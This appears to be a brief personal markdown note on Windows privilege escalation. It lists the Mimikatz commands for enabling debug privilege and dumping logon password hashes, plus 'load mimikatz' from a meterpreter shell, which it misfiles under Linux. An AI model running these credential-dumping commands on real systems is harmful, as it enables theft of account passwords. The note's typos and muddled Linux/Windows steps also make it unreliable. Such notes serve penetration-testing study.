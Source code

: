 ## window priv Esc

==note== : use new version , old give error 

---
## In Windows
### first run 
* ### Privilege
	> used to give permission , or start in debug to extrack passowrd
	
	```
	privilege::debug
	// to dump password hases use
	sekurlsa::logonpasswords
	```
	
	
---

## in Linux

### after getting meterpreter shell
### use command `load mimikatz`
### then use mimikatz , see tutorial ..